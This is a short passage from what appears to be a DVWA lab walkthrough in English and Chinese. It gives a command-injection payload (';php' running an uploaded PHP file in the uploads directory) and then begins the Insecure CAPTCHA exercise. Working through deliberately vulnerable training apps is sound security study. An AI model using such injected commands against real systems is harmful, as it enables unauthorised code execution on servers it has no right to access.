 ![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2048.png)

```markdown
;php /var/www/html/hackable/uploads/yo.php
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2049.png)

---

# 6. Insecure CAPTCHA

### Objective: Your aim, change the current user's password in an automated manner because of the poor CAPTCHA system.

根據參考資料， CAPTCHA 應該被視為用來 limit request rate

### 觀察

不勾選驗證會無法通關
